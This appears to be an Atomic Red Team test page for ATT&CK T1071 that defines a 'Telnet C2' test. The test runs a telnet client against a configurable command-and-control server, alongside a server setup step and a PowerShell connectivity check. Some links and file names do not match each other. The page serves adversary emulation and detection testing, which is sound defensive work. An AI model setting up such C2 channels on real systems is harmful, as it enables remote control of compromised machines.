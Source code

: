 # T1071 - Application Layer Protocol
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1059/)
<blockquote>Adversaries may communicate using OSI application layer protocols to avoid detection/network filtering by blending in with existing traffic. Commands to the remote system, and often the results of those commands, will be embedded within the protocol traffic between the client and server.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Telnet C2](#atomic-test-1---autoit)


<br/>

## Atomic Test #1 - Telnet C2
An adversary may establish telnet communication from compromised endpoint to command and control (C2) server to be able to operate more attack on objectives.

**Supported Platforms:** Windows


**auto_generated_guid:** 3b0df731-030c-4768-b492-2a3216d90e53




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| server_ip | C2 server IP or URL | url | localhost |
| server_port | C2 server port | number | 23 |
| client_path | Path to telnet agent | path | PathToAtomicsFolder\T1071\src\telnet_client.exe |


#### Attack Commands: Run with `powershell`! 


```cmd
.\#{client_path} #{server_ip} --port #{server_port}
```

#### Dependencies Run with `powershell`!:

##### Description: Command and Control (C2) server cam be established by running PathToAtomicsFolder\T1071\bin\telnet_server.exe on specified server with specified IP that must be reachable by client (telnet_client.exe)

```powershell
.\telnet_server.py server_ip --port port_number
```

##### Check Prereq Commands:
```powershell
$connection = Test-NetConnection -ComputerName #{server_ip} -Port #{server_port}
if ($connection.TcpTestSucceeded) {exit 0} else {exit 1}
```


<br/>
<br/>
